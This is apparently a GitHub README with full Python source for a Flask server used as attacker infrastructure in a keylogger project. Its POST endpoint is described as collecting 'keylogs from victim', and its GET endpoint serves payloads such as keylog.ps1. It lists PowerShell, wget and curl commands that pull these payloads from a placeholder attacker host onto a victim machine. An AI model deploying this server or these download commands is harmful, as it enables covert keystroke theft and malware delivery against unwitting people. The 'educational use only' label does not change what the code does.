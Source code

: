 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Web server with Flask
Simple python script, to launch a web server which takes POST and GET requests.

## How to use:

- Download the file `webhook`
- Edit `app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)` , to the IP and Port, you want to listen the incoming traffic.
- Give permission `chmod 700 webhook`
- Run `./webhook`
  
**Profit!**   
Webhook is now running:
- `/server` end point, for example `http://IP_YOU_WANT_TO_LISTEN/server`, accepts POST requests, in our project, designed for receiving the keylogs from victim.
- `/server/filename` endpoint takes GET requests, for example if you have `keylog.ps1` script in the same folder where the webhook is executed, you can fetch the script to victim:
	- Windows (2 examples): 
		- `Invoke-WebRequest -Uri http://IP_YOU_WANT_TO_LISTEN/server/keylog.ps1 -OutFile "test.ps1"`
		- `(New-Object System.Net.WebClient).DownloadFile("IP_YOU_WANT_TO_LISTEN/server/logger.ps1", "test.ps1")`
	- Linux (2 examples): 
		- `wget http://IP_YOU_WANT_TO_LISTEN/server/keylog.ps1`
		- `curl http://IP_YOU_WANT_TO_LISTEN/server/logger.ps1 -o test.ps1`
---

### Commented code:

```python
#!/bin/python3
from flask import Flask, request, send_file
import os

app = Flask(__name__)

# Function to get the next available log number
def get_next_log_number():
    log_number = 1
    while os.path.exists(f'log-{log_number}.txt'):
        log_number += 1
    return log_number

# Handling POST requests to the '/server' endpoint
@app.route('/server', methods=['POST'])
def handle_webhook_post():
    # Checking if the request method is POST
    if request.method == 'POST':
        # Getting the data from the request
        data = request.data

        # Check if the data contains Mac-style line endings
        if b'\r' in data:
            # Replace Mac-style line endings with Unix-style line endings
            data = data.replace(b'\r', b'\n')

        # Getting the next available log number
        log_number = get_next_log_number()
        # Generating the log filename based on the log number
        log_filename = f'log-{log_number}.txt'

        # Writing the received data to the log file
        with open(log_filename, 'wb') as file:
            file.write(data)

        # Returning a response indicating successful receipt and logging of data
        return f"Webhook data received and logged as {log_filename}", 200
    else:
        # Returning a 501 status code for unsupported methods
        return "Unsupported method", 501

# Handling GET requests to the '/server/<filename>' endpoint
@app.route('/server/<filename>', methods=['GET'])
def handle_webhook_get(filename):
    try:
        # Sending the specified file as an attachment in the response
        return send_file(filename, as_attachment=True)
    except FileNotFoundError:
        # Returning a 404 status code if the file is not found
        return "File not found", 404

# Running the Flask app if this script is executed directly
if __name__ == '__main__':
    # Configuring the Flask app to run on a specific host and port
    app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)
```
